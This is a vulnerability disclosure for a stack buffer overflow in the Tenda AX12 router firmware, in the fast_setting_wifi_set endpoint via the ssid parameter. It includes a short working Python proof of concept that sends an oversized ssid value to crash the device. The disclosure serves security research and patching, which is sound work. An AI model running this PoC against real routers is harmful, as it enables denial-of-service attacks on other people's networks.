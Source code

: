 # Tenda Router AX12 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AX12_V22.03.01.16. (The latest version is [AX12_V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `sub_431CF0`.

In function `sub_431CF0` it reads user provided parameter `ssid` into `v2`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AX12/298/vlun.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
